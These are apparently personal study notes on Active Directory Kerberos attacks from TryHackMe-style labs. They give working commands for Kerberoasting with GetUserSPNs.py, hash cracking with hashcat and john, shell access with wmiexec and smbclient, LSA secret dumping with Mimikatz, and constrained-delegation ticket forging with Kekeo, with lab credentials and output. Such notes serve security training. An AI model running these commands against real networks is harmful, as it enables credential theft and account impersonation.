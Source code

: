 # Kerberos

## Kerberos authentication

The user makes an AS-REQ to the Key Distribution Centre (KDC) on the DC that includes a timestamp encrypted with the user's NTLM hash. Essentially, this is the request for a Ticket Granting Ticket (TGT). The DC checks the information and sends the TGT to the user. This TGT is signed with the KRBTGT account's password hash that is only stored on the DC. The user can now send this TGT to the DC to request a Ticket Granting Service (TGS) for the resource that the user wants to access. If the TGT checks out, the DC responds to the TGS that is encrypted with the NTLM hash of the service that the user is requesting access for. The user then presents this TGS to the service for access, which can verify the TGS since it knows its own hash and can grant the user access.  

![Kerberos auth](../.res/2022-08-01-13-54-27.png)  

Source: [TryHackMe - Persisting AD](https://tryhackme.com/room/persistingad)

## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  
  ```bash
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```

  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate
- `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`

        ```bash
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat (for it to work I needed to have 4gb on my vm)
  ```bash
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```bash
- Crack the hash with john
  - Alternatively we can use john
  ```bash
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```

- We get the password
  ```bash
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
- After getting a password, we could connect to an smbshare or get a shell

  ```python
  python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
  ```
  or
  ```bash
  smbclient \\\\10.10.10.100\\Users -U active.htb\\Administrator
  ```

## Exploiting Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

Source: [TryHackMe](https://tryhackme.com/room/exploitingad)

### Example

- Enerumerate available delegations with a privileged user
  - `Import-Module C:\Tools\PowerView.ps1`
  - `Get-NetUser -TrustedToAuth`
- Dump LSASecrets with [Mimikatz](https://github.com/gentilkiwi/mimikatz/security)
  - `mimikatz.exe`
  - `token::elevate` To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
  - `lsadump::secrets` Mimikatz interacts with the registry hive to pull the clear text credentials.
  
![Dump](../.res/2022-07-29-13-06-16.png)  

- Perform the kerberos delegation attack with [kekeo](https://github.com/gentilkiwi/kekeo) `kekeo.exe`
- `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted` generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
  - user - The user who has the constrained delegation permissions.
  - domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
  - password - The password associated with the svcIIS account.

![generate TGT](../.res/2022-07-29-13-08-20.png)  

- `/user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc` forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1
  - tgt - We provide the TGT that we generated in the previous step.
  - user - The user we want to impersonate. Since t2 accounts have administrative access over workstations, it is a safe assumption that t1 accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
  - service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service. `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
- Import the tickets with Mimikatz

```dos
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- You should have a similar output  

![output](../.res/2022-07-29-15-35-02.png)

- You can run `klist` to check that the tickets were imported
- We just need to create our session in our target  

![Session](../.res/2022-07-29-15-37-15.png)